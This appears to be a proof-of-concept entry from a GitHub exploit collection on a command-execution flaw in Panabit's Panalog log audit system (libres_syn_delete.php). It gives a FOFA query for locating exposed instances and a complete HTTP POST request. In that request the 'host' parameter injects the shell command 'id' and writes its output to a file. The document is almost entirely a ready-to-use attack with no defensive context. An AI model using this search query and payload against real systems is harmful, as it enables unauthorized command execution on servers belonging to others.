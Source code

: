 ## Panalog大数据日志审计系统libres_syn_delete.php存在命令执行


## fofa
```
app="Panabit-Panalog"
```

## poc
```
POST /content-apply/libres_syn_delete.php HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 54
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded

token=1&id=2&host=|id >2cWKiiWovWYAIcNUBPkZph4xPLs.txt
```
![image](https://github.com/wy876/POC/assets/139549762/44588f4b-2c3a-45c6-bc27-951795c2d64b)

![image](https://github.com/wy876/POC/assets/139549762/90d69ec6-1058-4563-b02f-0721a1c68e8f)
